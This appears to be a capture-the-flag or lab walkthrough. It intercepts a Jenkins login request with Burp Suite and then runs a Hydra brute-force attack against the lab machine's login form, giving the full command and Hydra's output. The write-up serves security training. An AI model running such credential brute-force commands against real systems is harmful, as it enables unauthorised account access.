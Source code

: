 To start let's launch **Burp Suite**, we'll be using the integrated browser to navigate the site and review the details of the login request it gets sent when we attempt to log into Jenkins.

![Burp Suite](https://i.imgur.com/SBakfmQ.png)

>_NOTE:_ If you get an error about the integrated browser not able to run due to sandboxed settings. Got to Project Options -> Misc -> Check "allow the embedded browser to run without a sandbox".

Once you have Burp running in the **Proxy -> Intercept** tab click on **Open Browser**. In the new Browser window open the machine IP at port 8080 to load the Jenkins login form.

- Remember to add the target IP to Burp's Scope, so it doesn't stop every single request from non-target related IPs.

Ok so in order to brute force the login with Hydra, we need to Intercept a login request with Burp so we can get some important pieces of Information: **[URL]**, **[UsernameField]**, **[PasswordField]** and the **[InvalidCredentialsErrorMessage]**. These are all required for our Hydra attack.

To get those, let's attempt to login with some invalid credentials just as **test:test**.

![Jenkins Login error](https://i.imgur.com/AKP9Wop.png)

Let's see the request in Burp:

![Intercepted Login Request](https://i.imgur.com/KL3wpw9.png)
As we can see in the intercepted request we get the rest of the pieces we were looking for. So now we have all of them ready for Hydra:

- **[URL]**: /j_acegi_security_check
- **[UsernameField]**: j_username
- **[PasswordField]**: j_password
- **[InvalidCredentialsErrorMessage]**: Invalid username or password

We'll also need to know the **[PORT]** where the login forms lives, but we know that already from our Nmap scan(8080).

So now let's try to configure **Hydra** so we can trigger that brute force attack.

First let's review the required parameters we must specify and how our command its formated:

```bash
sudo hydra -s [PORT] [IP] http-form-post "/[URL]:[UsernameField]=^USER^&[PasswordField]=^PASS^:[InvalidCredentialsErrorMessage]" -L rockyou.txt -P rockyou.txt
```

So if we fill in the required data, and using rockyou.txt our command will look like this:

```bash
sudo hydra -s 8080 10.10.192.65 http-form-post "/j_acegi_security_check:j_username=^USER^&j_password=^PASS^:Invalid username or password" -L rockyou.txt -P rockyou.txt
```

This might take a while to complete and we probably have to locate a better password/usernames wordlist, so it is worth mentioning **SecLists** as a great resource for those. Check [this link](https://github.com/danielmiessler/SecLists).

After a while we should see something like this:

```bash
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-08-17 14:10:53
[DATA] max 16 tasks per 1 server, overall 16 tasks, 205761065451876 login tries (l:14344374/p:14344374), ~12860066590743 tries per task
[DATA] attacking http-post-form://10.10.192.65:8080/j_acegi_security_check:j_username=^USER^&j_password=^PASS^:Invalid username or password
[STATUS] 384.00 tries/min, 384 tries in 00:01h, 205761065451492 to do in 8930601799:07h, 16 active
[STATUS] 384.00 tries/min, 1152 tries in 00:03h, 205761065450724 to do in 8930601799:05h, 16 active
[STATUS] 381.71 tries/min, 2672 tries in 00:07h, 205761065449204 to do in 8984078456:30h, 16 active
```